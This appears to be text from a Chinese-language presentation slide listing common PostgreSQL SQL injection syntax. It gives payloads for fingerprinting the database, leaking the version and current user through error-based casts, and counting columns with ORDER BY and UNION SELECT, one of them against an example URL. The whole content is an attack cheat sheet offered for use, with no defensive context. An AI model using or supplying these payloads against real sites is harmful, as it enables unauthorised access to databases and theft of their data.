

# postgresql数据库注入常用语法
判断是否为postgresql数据库
+and+1::int=1--
http://mysql.sql.com/sql.php?id=1+and+1::int=1--
判断数据库版本信息
+and+1=cast(version() as int)--
判断当前用户
  and 1=cast(user||123 as int)
判断有多少字段
order by
union select null,null,null
union select null,user,null   判断当前用户